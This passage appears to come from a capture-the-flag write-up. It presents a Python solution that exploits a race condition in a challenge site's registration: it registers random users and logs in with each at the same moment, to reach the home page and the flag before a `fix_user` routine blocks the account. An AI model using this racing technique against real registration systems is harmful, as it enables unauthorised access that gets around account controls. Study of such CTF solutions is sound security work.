   ### The solution

  Quite straightforward: we setup two threads and we try to login and get to the home page of the website while the registration is still ongoing in order to be faster than the `fix_user` function, which would block access to the database.
  
  ```python
  def registration(s, user, password):
    url = "%s/register.php" % HOST
    r = s.post(url, data={'username': user, 'password_1': password, 'password_2': password, 'reg_user': ''})
    #get_body(r)
    if "Registration Completed!" in r.text:
      return True
    return False 
   
  def login(s, user, password):
    url = "%s/login.php" % HOST
    r = s.post(url, data={'username': user, 'password': password, 'log_user' : ''})
    r = s.get(HOST)
    if 'flag{' in r.text:
      get_body(r)
  
  print('setting up session...')
  s = Session()
  print('starting loop...')
  while True:
    username = randomString(10)
    password = randomString(10)
    r = threading.Thread(target=registration, args=(s, username, password))
    l = threading.Thread(target=login, args=(s, username, password))
    r.start()
    l.start() 
  ```
  